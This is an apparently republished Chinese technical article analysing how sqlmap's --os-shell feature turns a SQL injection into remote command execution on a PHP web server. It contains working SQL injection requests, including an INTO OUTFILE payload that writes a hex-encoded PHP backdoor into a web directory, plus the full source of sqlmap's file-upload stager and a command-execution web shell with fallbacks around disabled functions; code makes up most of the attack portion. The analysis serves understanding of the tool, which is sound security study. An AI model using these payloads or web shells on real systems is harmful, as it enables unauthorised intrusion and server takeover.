




# sqlmap os-shell 原理

> 原文：[http://book.iwonder.run/Tools/Sqlmap/3.html](http://book.iwonder.run/Tools/Sqlmap/3.html)

## 0x01 流程

### i. 简单判断



从截图显示中，可以看到有以下几步

#### 1、选择 web 应用语言

#### 2、发现（提供）一个可写的绝对路径

#### 3、顺序（不同方法）上传 tmpujout.php、tmpbvwsp.php 两个文件

### ii. 流量分析

主要的 http 流量有 4 条，第 2 条根据@@version_compile_os 首字母判断操作系统，第 4 条开始写入文件

```
1\. id=1' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x717a767671,(SELECT REPEAT(0x34,1024)),0x7170716271,0x78))s), 8446744073709551610, 8446744073709551610)))-- MBKa&Submit=Submit

2\. id=1' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x717a767671,(SELECT (CASE WHEN (0x57=UPPER(MID(@@version_compile_os,1,1))) THEN 1 ELSE 0 END)),0x7170716271,0x78))s), 8446744073709551610, 8446744073709551610)))-- EJbF&Submit=Submit

3\. id=1' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x717a767671,(SELECT REPEAT(0x31,451)),0x7170716271,0x78))s), 8446744073709551610, 8446744073709551610)))-- LNMk&Submit=Submit

4\. id=1' LIMIT 0,1 INTO OUTFILE '/var/www/html/hackable/uploads/tmpujout.php' LINES TERMINATED BY 0x3c3f7068702024633d245f524551554553545b22636d64225d3b407365745f74696d655f6c696d69742830293b4069676e6f72655f757365725f61626f72742831293b40696e695f73657428276d61785f657865637574696f6e5f74696d65272c30293b247a3d40696e695f676574282764697361626c655f66756e6374696f6e7327293b69662821656d70747928247a29297b247a3d707265675f7265706c61636528272f5b2c205d2b2f272c272c272c247a293b247a3d6578706c6f646528272c272c247a293b247a3d61727261795f6d617028277472696d272c247a293b7d656c73657b247a3d617272617928293b7d24633d24632e2220323e26315c6e223b66756e6374696f6e206628246e297b676c6f62616c20247a3b72657475726e2069735f63616c6c61626c6528246e29616e6421696e5f617272617928246e2c247a293b7d69662866282773797374656d2729297b6f625f737461727428293b73797374656d282463293b24773d6f625f6765745f636f6e74656e747328293b6f625f656e645f636c65616e28293b7d656c736569662866282770726f635f6f70656e2729297b24793d70726f635f6f70656e2824632c617272617928617272617928706970652c72292c617272617928706970652c77292c617272617928706970652c7729292c2474293b24773d4e554c4c3b7768696c65282166656f662824745b315d29297b24772e3d66726561642824745b315d2c353132293b7d4070726f635f636c6f7365282479293b7d656c73656966286628277368656c6c5f657865632729297b24773d7368656c6c5f65786563282463293b7d656c736569662866282770617373746872752729297b6f625f737461727428293b7061737374687275282463293b24773d6f625f6765745f636f6e74656e747328293b6f625f656e645f636c65616e28293b7d656c7365696628662827706f70656e2729297b24783d706f70656e2824632c72293b24773d4e554c4c3b69662869735f7265736f7572636528247829297b7768696c65282166656f6628247829297b24772e3d66726561642824782c353132293b7d7d4070636c6f7365282478293b7d656c7365696628662827657865632729297b24773d617272617928293b657865632824632c2477293b24773d6a6f696e28636872283130292c2477292e636872283130293b7d656c73657b24773d303b7d7072696e7420223c7072653e222e24772e223c2f7072653e223b3f3e-- -&Submit=Submit 
```

之后 sqlmap 按路径尝试去访问文件 tmpujqbu.php，通过 POST 上传后门文件 tmpbzhga.php



## iii. 文件内容解析



可以看到 tmpujqbu.php 中的内容就是一个简单的文件上传，并将目标文件权限设置为 0755，注意这个文件生成利用的 LINES TERMINATED BY，所以前面会带有之前 sql 执行的结果（这里就是 admin admin）

```
 tmpujqbu.php
admin    admin
<?php
if (isset($_REQUEST["upload"])) {
    $dir = $_REQUEST["uploadDir"];
    if (phpversion() < '4.1.0') {
        $file = $HTTP_POST_FILES["file"]["name"];
        @move_uploaded_file($HTTP_POST_FILES["file"]["tmp_name"], $dir . "/" . $file) or die();
    } else {
        $file = $_FILES["file"]["name"];
        @move_uploaded_file($_FILES["file"]["tmp_name"], $dir . "/" . $file) or die();
    }
    @chmod($dir . "/" . $file, 0755);
    echo "File uploaded";
} else {
    echo "<form action=" . $_SERVER["PHP_SELF"] . " method=POST enctype=multipart/form-data><input type=hidden name=MAX_FILE_SIZE value=1000000000><b>sqlmap file uploader</b><br><input name=file type=file><br>to directory: <input type=text name=uploadDir value=/var/www/html/hackable/uploads/> <input type=submit name=upload value=upload></form>";
} ?> 
```

而 tmpbzhga.php 可以看到就是一个标准的用于执行系统命令的后门脚本

```
// tmpbzhga.php
<?php
$c = $_REQUEST["cmd"];
@set_time_limit(0);
@ignore_user_abort(1);
@ini_set('max_execution_time', 0);
$z = @ini_get('disable_functions');
if (!empty($z)) {
    $z = preg_replace('/[, ]+/', ',', $z);
    $z = explode(',', $z);
    $z = array_map('trim', $z);
} else {
    $z = array();
}
$c = $c . " 2>&1\n";
function f($n) {
    global $z;
    return is_callable($n) and !in_array($n, $z);
}
if (f('system')) {
    ob_start();
    system($c);
    $w = ob_get_contents();
    ob_end_clean();
} elseif (f('proc_open')) {
    $y = proc_open($c, array(
        array(
            pipe,
            r
        ) ,
        array(
            pipe,
            w
        ) ,
        array(
            pipe,
            w
        )
    ) , $t);
    $w = NULL;
    while (!feof($t[1])) {
        $w.= fread($t[1], 512);
    }
    @proc_close($y);
} elseif (f('shell_exec')) {
    $w = shell_exec($c);
} elseif (f('passthru')) {
    ob_start();
    passthru($c);
    $w = ob_get_contents();
    ob_end_clean();
} elseif (f('popen')) {
    $x = popen($c, r);
    $w = NULL;
    if (is_resource($x)) {
        while (!feof($x)) {
            $w.= fread($x, 512);
        }
    }
    @pclose($x);
} elseif (f('exec')) {
    $w = array();
    exec($c, $w);
    $w = join(chr(10) , $w) . chr(10);
} else {
    $w = 0;
}
print "<pre>" . $w . "</pre>"; ?> 
```

访问并执行 ls 命令



## Q&A

### 1、原理简述

就是简单的上传一个 cmd shell

### 2、为什么要分两步呢?

不知道，明明可以直接一步上传

### 3、使用--os-shell 需要的条件

#### FILE 权限

#### 可写的结对路径

#### PHP GPC off

### 4、–os-shell 退出后会发生什么

会调用后门脚本删除上传文件后，进行自删除

